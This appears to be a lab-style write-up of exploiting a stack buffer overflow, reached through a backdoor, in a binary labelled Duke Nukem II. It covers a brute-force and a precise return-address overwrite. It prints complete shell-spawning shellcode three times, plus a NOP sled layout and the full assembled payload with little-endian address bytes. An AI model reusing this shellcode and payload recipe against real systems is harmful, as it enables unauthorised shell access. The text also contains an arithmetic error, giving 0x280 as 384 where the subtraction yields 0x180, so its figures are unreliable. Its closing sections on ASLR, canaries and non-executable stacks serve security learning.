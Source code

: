 ##########################################
Duke Nukem II
##########################################

.. image:: ../screenshots/projects/banner.png
   :alt: Duke Nukem II Banner

I decided to tear apart the Duke Nukem II binary recently, mostly for fun and to see if old games are as buggy as I remember. They are. Here’s a straight walk-through of how I found and exploited a buffer overflow to pop a shell, using both brute-force (sledgehammer) and precision (ballpeen hammer) attacks.

Finding and Understanding the Bug
=================================

Opened up the binary in Ghidra. By rummaging around, I found a secret function at offset ``0x002f52e2`` that only triggers if you hit “up” at certain computer terminals in-game. This backdoor eventually passes direct user input to another function at ``0x002f5774``, which does a ``memcpy`` from a buffer you control into a local buffer with a size of just 288 bytes. The best part? The copy size is passed in by the user too.

Offsets and buffer info:

- **Backdoor function:** FUN_002f52e2, offset ``0x002f52e2``
- **Vulnerable function:** FUN_002f5774, offset ``0x002f5774``
- **Destination buffer offset (in stack frame):** ``-0x188``
- **Source buffer offset:** ``-0x10``

Design flaw: The input parameter that sets the size of the copy is user-controlled, so it can go way past 288 bytes.

.. image:: ../screenshots/projects/Picture1.png
   :alt: Ghidra showing backdoor and vulnerable function entry points
   :align: center
   :height: 300px
.. image:: ../screenshots/projects/Picture2.png
   :alt: Ghidra showing backdoor and vulnerable function entry points
   :align: center
   :height: 300px

   *Showing how the backdoor links to the vulnerable routine.*

Sledgehammer Approach
=====================

The sledgehammer approach just blows past buffer boundaries and trashes the stack with a big chunk of data.

The Exploit
-----------

The buffer is 288 bytes, but the vulnerability lets us dump in much more. I sent 400 bytes:

- Shellcode to spawn a shell (shown below)
- Lots of NOPs (``\x90``)
- Filler bytes

**Shellcode used (63 bytes):**

::

   \x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7
   \x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05
   \x48\x89\xd7\xb0\x3c\x0f\x05\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
   \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90

Example sledgehammer buffer:

::

   \x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7
   \x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05
   \x48\x89\xd7\xb0\x3c\x0f\x05
   [lots of NOPs to fill]
   (total 400 bytes)

.. image:: screenshot2.png
   :alt: Stack/Memory dump with the 400-byte overflow in place
   :align: center
   :height: 300px

   *After running this, the stack is totally blown out.*

The result: usually a crash, but sometimes enough random luck to trip a shell.

Ballpeen Hammer Approach (Precise Shell Execution)
===================================================

This method is more involved but reliable. It needs you to know exactly where to overwrite saved ``rbp`` and the return address so control lands exactly on your shellcode.

Step-by-Step
------------

1. **Debug setup**
   - Set up remote debugging with Eclipse
   - Launch ``gdbserver`` on port 2345
   - Trigger the in-game backdoor, then pause the program in the debugger

2. **Stack analysis**
   - First stack address (e.g. ``0x55555574933e``) is where backdoor is called
   - Second (e.g. ``0x5555557492a2``) is the wrapper calling the backdoor, which also calls the vulnerable function at ``0x555555749774``
   - Find call to ``memcpy``, breakpoint it
   - Step in, note:
     - ``rbp`` after stepping in: ``0x7fffffffc2f0``
     - ``rdi`` of buffer: ``0x7fffffffc170``
     - Copy size: ``0x7fffffffc2f0 - 0x7fffffffc170 = 0x280 = 384`` bytes

3. **Build the exploit buffer**
   - Shellcode (again, full, uncut):

::

   \x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7
   \x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05
   \x48\x89\xd7\xb0\x3c\x0f\x05\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
   \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90

   (that's 63 bytes)

   - Spacer/NOP sled:
     384 (overflow window) - 63 (shellcode) = 321 bytes.
     So, ``\x90`` repeated 321 times.

   - rbp and return address overwrite:

     After the NOP sled, append packed 8-byte little-endian values for:

      * rbp after memcpy: ``0x7fffffffc2f0``
      * return address (should point into shellcode): ``0x7fffffffc170``

   This is how the final payload is laid out:

::

   [shellcode][321 x \x90][\xf0\xc2\xff\xff\xff\x7f\x00\x00][\x70\xc1\xff\xff\xff\x7f\x00\x00]

   Both values padded to 8 bytes; bytes written in little-endian order.

**Full buffer assembly (all bytes, no snipping):**

::

   \x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7
   \x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05
   \x48\x89\xd7\xb0\x3c\x0f\x05
   [321 x \x90]
   \xf0\xc2\xff\xff\xff\x7f\x00\x00
   \x70\xc1\xff\xff\xff\x7f\x00\x00

.. image:: screenshot3.png
   :alt: Buffer as seen in memory with NOP sled and shellcode
   :align: center
   :height: 300px

   *You can clearly see the shellcode, NOP sled, and overwritten addresses in the stack.*

Final Step
----------

Once this buffer is submitted at the in-game prompt (after hitting the debug breakpoint), the function returns and control hits your shellcode reliably. A shell pops up.

.. image:: screenshot4.png
   :alt: In-game prompt where the buffer is submitted
   :align: center
   :height: 300px

   *This is where you paste the crafted buffer after suspending in the debugger.*

.. image:: screenshot5.png
   :alt: Terminal with real shell from inside Duke Nukem II process
   :align: center
   :height: 300px

   *Confirmation: shell access achieved.*

Why This Wouldn’t Work With Defenses
====================================

- **ASLR:** Randomizes where things are in memory every run, making it much harder to guess where to jump with your overflow.
- **Stack Canaries:** Inserts a secret value before the return address. Overwriting it with an overflow causes the process to crash instead of running your code.
- **Non-executable stack:** Even if you land execution on the stack, your shellcode won’t run unless it’s in an executable region.

Summary
=======

- The bug: User-controlled copy size overflows a fixed-size local buffer in ``memcpy``.
- The brute-force (sledgehammer) attack proves the overflow is real.
- The targeted (ballpeen hammer) attack gets you reliable shell access.
- Old binaries make this stuff easy; security defenses would shut it down today.

If you want to get into real-world exploitation, debugging, and reverse engineering, work on old games or similar simple binaries. You’ll get a real feel for how overflows happen and how to actually exploit them.

All shellcode shown here is complete and used exactly as described.

*Only hack stuff you own or have permission to test on. This is for learning and curiosity, nothing else.*
